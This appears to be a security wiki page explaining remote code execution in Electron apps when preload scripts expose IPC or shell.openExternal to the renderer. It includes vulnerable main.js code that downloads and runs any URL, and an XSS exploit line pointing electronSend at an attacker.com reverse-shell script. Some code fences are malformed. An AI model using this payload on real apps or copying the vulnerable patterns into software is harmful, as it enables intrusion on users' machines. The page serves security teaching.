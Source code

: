 # Electron contextIsolation RCE via IPC


If the preload script exposes an IPC endpoint from the main.js file, the renderer process will be able to access it and if vulnerable, a RCE might be possible.

**Most of these examples were taken from here** [[https://www.youtube.com/watch?v=xILfQGkLXQo|**https://www.youtube.com/watch?v=xILfQGkLXQo**]]. Check the video for further information.

## Example 0

Example from [[https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (you have the full example of how MS Teams was abusing from XSS to RCE in those slides, this is just a very basic example|https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21]]:

![[../../../images/image (9) (1) (1) (1) (1).png|]]


## Example 1

Check how the `main.js` listens on `getUpdate` and will **download and execute any URL** passed.\
Check also how `preload.js` **exposes any IPC** event from main.

```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
  console.log("getUpdate: " + url)
  mainWindow.webContents.downloadURL(url)
  mainWindow.download_url = url
})

mainWindow.webContents.session.on(
  "will-download",
  (event, item, webContents) => {
    console.log("downloads path=" + app.getPath("downloads"))
    console.log("mainWindow.download_url=" + mainWindow.download_url)
    url_parts = mainWindow.download_url.split("/")
    filename = url_parts[url_parts.length - 1]
    mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
    console.log("downloadPath=" + mainWindow.downloadPath)
    // Set the save path, making Electron not to prompt a save dialog.
    item.setSavePath(mainWindow.downloadPath)

    item.on("updated", (event, state) => {
      if (state === "interrupted") {
        console.log("Download is interrupted but can be resumed")
      } else if (state === "progressing") {
        if (item.isPaused()) console.log("Download is paused")
        else console.log(`Received bytes: ${item.getReceivedBytes()})
      }
    })

    item.once("done", (event, state) => {
      if (state === "completed") {
        console.log("Download successful, running update")
        fs.chmodSync(mainWindow.downloadPath, 0755)
        var child = require("child_process").execFile
        child(mainWindow.downloadPath, function (err, data) {
          if (err) {
            console.error(err)
            return
          }
          console.log(data.toString())
        })
      } else console.log(`Download failed: ${state})
    })
  }
)
```
```
```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
  ipcRenderer.send(event, data)
}
```
```
Exploit:

```html
<script>
  electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```
```
## Example 2

If the preload script exposes directly to the renderer a way to call `shell.openExternal` its possible to obtains RCE

```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
  shell.openExternal(url)
}
```
```
## Example 3

Is the preload script exposes ways to completely communicate with the main process, an XSS will be able to send any event. The impact of this depends on what the main process exposes in terms of IPC.

```javascript
window.electronListen = (event, cb) => {
  ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
  ipcRenderer.send(event, data)
}
```
```



